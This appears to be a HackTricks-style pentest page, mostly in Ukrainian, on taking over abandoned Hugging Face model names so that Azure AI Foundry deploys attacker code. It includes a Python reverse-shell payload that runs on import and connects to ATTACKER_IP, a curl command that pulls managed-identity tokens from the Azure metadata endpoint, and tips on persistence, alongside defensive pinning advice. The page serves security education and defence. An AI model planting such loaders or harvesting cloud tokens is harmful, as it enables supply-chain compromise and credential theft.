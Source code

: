 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Сценарій

- Azure AI Foundry Model Catalog містить багато моделей Hugging Face (HF) для розгортання в один клік.
- Ідентифікатори моделей HF мають формат Author/ModelName. Якщо HF author/org видаляється, будь-хто може повторно зареєструвати цього автора й опублікувати модель з тим самим ModelName за legacy path.
- Pipelines і catalogs, що витягують лише за іменем (без commit pinning/integrity), будуть резолвитися на attacker-controlled repos. Коли Azure розгортає модель, loader code може виконатися в середовищі endpoint, надаючи RCE з правами цього endpoint.

Типові випадки takeover у HF:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Виявлення повторно використовуваних просторів імен (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Повний ланцюг атаки проти Azure AI Foundry

1) У Model Catalog знайдіть HF models, у яких оригінальних авторів видалили або передали (old author removed) на HF.  
2) Повторно зареєструйте покинутого автора на HF і відтворіть ModelName.  
3) Опублікуйте шкідливий repo з loader code, який виконується при import або вимагає trust_remote_code=True.  
4) Розгорніть legacy Author/ModelName з Azure AI Foundry. Платформа підтягує attacker repo; loader виконується всередині Azure endpoint container/VM, що призводить до RCE з правами endpoint.

Приклад фрагмента payload, що виконується при import (лише для демонстрації):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Примітки
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Доступ зазвичай відповідає дозволам managed identity/service principal кінцевої точки. Розглядайте це як початкову точку доступу для отримання даних та латерального переміщення в межах Azure.

## Поради після експлуатації (Azure Endpoint)

- Перелічіть змінні середовища та MSI endpoints для токенів:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Перевірте змонтоване сховище, артефакти моделей і доступні служби Azure за допомогою отриманого токена.
- Розгляньте можливість персистенції, залишаючи отруєні артефакти моделей, якщо платформа повторно завантажує їх з HF.

## Захисні рекомендації для користувачів Azure AI Foundry

- Закріплюйте моделі за конкретним комітом при завантаженні з HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Реплікуйте перевірені HF моделі до довіреного внутрішнього реєстру і розгортайте звідти.
- Безперервно скануйте codebases і defaults/docstrings/notebooks на предмет жорстко прописаних Author/ModelName, які видалено/перенесено; оновлюйте або pin.
- Перевіряйте існування автора та походження моделі перед розгортанням.

## Евристики розпізнавання (HTTP)

- Видалений автор: сторінка автора повертає 404; legacy model path повертає 404 до моменту takeover.
- Перенесена модель: legacy path повертає 307 на нового автора, поки старий автор існує; якщо старий автор пізніше буде видалений і перереєстрований, legacy path слугуватиме attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Перехресні посилання

- Див. ширшу методологію та зауваження щодо ланцюга постачання:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Посилання

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
